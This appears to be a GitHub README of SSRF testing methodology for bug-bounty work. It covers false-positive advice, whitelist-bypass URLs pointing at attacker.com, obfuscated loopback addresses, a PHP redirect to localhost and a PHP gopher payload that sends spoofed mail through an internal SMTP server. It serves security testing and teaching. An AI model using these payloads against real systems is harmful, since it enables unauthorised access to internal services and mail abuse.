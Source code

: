 # SSRF
## SSRF Methodology Flowchart
Since I've seen so many people ask what to do once they get a request back to their collaborator instance, I created this flowchart to present what I usually do to test and escalate SSRFs. 
<img src=https://github.com/iustin24/SSRF/blob/main/iustinSSRFflowchart.png>
## False Positives:
DNS queries only are rarely exploitable, and should never be reported without any additional impact.

When using your listener as an email domain `test@burpcollaborator.com`, recieving SMTP + DNS queries are not signs of SSRF. It's just how SMTP works and should never be reported. There's been edge cases where the payload `test@burpcollaborator.com`, lead to http requests. If that's the case, SSRF might be possible. See [d0nut's Piercing the veal](https://medium.com/@d0nut/piercing-the-veal-short-stories-to-read-with-friends-4aa86d606fc5) story 4. 
## Sources: 
### Whitelist filter bypasses
Some common whitelist filter bypasses I test against:
```
https://target.com@attacker.com
https://attacker.com/target.com
https://target.com.attacker.com
```
### Blacklist filter bypasses (decimal, hex, octal)
Inspired from [EdOverflow's blogpost on exploiting Ruby's Resolv](https://edoverflow.com/2017/ruby-resolv-bug/)  
http://0177.1:22/  
http://0x7f.1:22/  
http://127.000.001:22/
See more at [PayloadsAllTheThings SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

### PHP Redirect
The value appended to location will be the url your page will redirect to. You can also play around with different status codes other than 301, such as 302,303,307.
```
<?php
header("Location: http://127.0.0.1", TRUE, 301);
exit();
?>
```
### SMPT Gopher payloads
Inspired from [d0nut's Piercing the veal](https://medium.com/@d0nut/piercing-the-veal-short-stories-to-read-with-friends-4aa86d606fc5) 
```
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```
Payload taken from [PayloadsAllTheThings SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
### Exploiting incosistencies in url parsers
Orange Tsai's blackhat presentation explains this perfectly. ( 
[PDF slides](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) + 
[Youtube presentation](https://www.youtube.com/watch?v=R9pJ2YCXoJQ&ab_channel=BlackHat) )
### More SSRF Resources
[Jdonsec's list of SSRF Resources](https://github.com/jdonsec/AllThingsSSRF)
